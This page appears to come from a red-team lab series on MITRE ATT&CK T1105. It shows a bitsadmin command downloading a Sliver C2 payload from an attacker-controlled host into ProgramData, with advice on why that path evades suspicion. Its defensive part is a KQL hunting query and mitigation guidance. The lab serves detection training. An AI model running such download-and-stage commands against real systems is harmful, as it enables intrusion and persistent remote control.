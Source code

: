 # T1105 – Ingress Tool Transfer  
**MITRE ATT&CK Reference:** [T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

Attackers don’t always need fancy implants, but sometimes all they need is a way *in*. 
Once initial access is achieved, dropping follow-up tooling is step one in solidifying control. 
This test simulates a common move: using the deprecated but still operational `bitsadmin.exe` to download a C2 payload from an attacker-controlled server.

Despite being phased out, `bitsadmin.exe` still ships with Windows and remains a go-to for red teamers and adversaries alike. 
It’s signed, native, and capable of pulling files over HTTP. Perfect for flying under the radar.

---

## Scenario Overview

- **Attacker VM:** `HR-COMPLAINTS` (Ubuntu 22.04, Python HTTP server)  
  - **IP:** `10.1.0.51`
- **Target VM:** `CEO-LAPTOP` (Windows 10 w/ Microsoft Defender for Endpoint)  
  - **Admin User:** `TrustMeBro`

---

## Payload Transfer

The attacker hosts `updater.exe` (a malicious binary written with the C2 framework Sliver), using Python’s built-in web server:

```bash
sudo python3 -m http.server 80
```

From the Windows target, the attacker executes:

```cmd
bitsadmin /transfer downloader /priority foreground http://10.1.0.51/updater.exe C:\ProgramData\Microsoft\Windows\updater.exe
```

> ℹ️ **Why `ProgramData`?**  
> This location is writable, commonly used by legitimate applications, and unlikely to trigger suspicion or UAC prompts.  
> It also blends easily with system noise.

&nbsp;  
<img width="772" height="408" alt="download_payload_from_linux" src="https://github.com/user-attachments/assets/99caf106-68a9-4990-a3ee-d10b36375c81" />


---

## Detection

Despite using a commonly abused LOLBin to download a suspicious `.exe` file, **no alerts or incidents** were triggered by MDE. However, the event is recorded in the device timeline:

<img width="1699" height="167" alt="checking_device_timeline_for_bitsadmin_payload" src="https://github.com/user-attachments/assets/b0ef808a-6eff-45a1-9cbd-c9c748911240" />

We observe `bitsadmin.exe` initiating an outbound HTTP request to `10.1.0.51`.

---

## KQL – Bitsadmin Hunting

```kql
DeviceProcessEvents
| where FileName =~ "bitsadmin.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, FileName, ProcessCommandLine, ReportId
| order by Timestamp desc
```

<img width="1381" height="532" alt="checking_for_bitsadmin_payload_kql" src="https://github.com/user-attachments/assets/64890755-7ef0-4fd3-a311-db89081ab288" />

---  

## Defender’s Corner  
> While `bitsadmin.exe` is deprecated, it remains a quiet favorite among adversaries for staging payloads over HTTP. Its ability to download files without triggering immediate alerts makes it useful in the early stages of intrusion.

**Mitigation & Detection Guidance** (based on [MITRE ATT&CK T1105](https://attack.mitre.org/techniques/T1105/)):

- **Network-level visibility**  
  Use intrusion detection/prevention systems (IDS/IPS) to flag suspicious outbound connections — especially to uncommon IPs or internal rogue hosts.

- **Command-line monitoring**  
  Track execution of native tools like `bitsadmin.exe` with unusual arguments or connections to non-corporate domains.

- **File system events**  
  Alert on file creation in obscure or high-risk paths like `C:\ProgramData\Microsoft\Windows\`.

- **Baseline awareness**  
  Investigate new binaries dropped by unfamiliar processes — especially those involving legacy transfer methods.

Now that the payload is successfully downloaded, we’ll pivot to execution by creating a service that quietly runs the staged updater.exe reverse shell.

➡️ **Next Step:** Continue the attack chain with the follow-up technique:  
[T1543.003 – Windows Service Masquerade](../../03_persistence/services/T1543.003_windows_service_masquerade.md)

